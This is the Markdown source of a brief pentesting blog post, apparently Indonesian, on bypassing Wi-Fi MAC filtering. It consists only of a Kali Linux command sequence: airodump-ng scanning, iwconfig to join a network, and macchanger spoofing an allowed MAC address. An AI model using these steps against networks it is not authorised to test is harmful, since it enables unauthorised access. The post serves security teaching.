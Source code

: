 ```yaml
---
layout: post
title: Bypassing MAC Filter
categories: [Pentesting]
tags: [Kali, Linux]
description: Bypass Mac Filter dengan airmon-ng
---
```


{% highlight terminal %}
$airodump-ng wlan0
$iwconfig wlan0 ssid mac_filter channel 4
$iwconfig wlan0
$macchanger -m xx:xx:xx:xx:xx:xx wlan0
$iwconfig wlan0 ssid mac_filter channel 4
$iwconfig wlan0
{% endhighlight %}
